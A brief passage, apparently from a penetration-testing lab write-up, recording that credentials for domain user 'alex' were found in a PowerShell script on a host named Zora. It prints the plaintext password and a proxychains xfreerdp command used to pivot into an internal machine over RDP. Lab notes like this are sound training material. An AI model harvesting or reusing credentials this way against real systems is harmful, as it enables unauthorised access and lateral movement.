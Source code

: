 Credentials of a domain user named `alex` was retrieved from [[system_report.ps1]] file from Zora

**Retreived Credentials**
```
$username = "sandbox\alex"
$pwdTxt = "Ndawc*nRoqkC+haZ"
```

**Connect using RDP**
```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```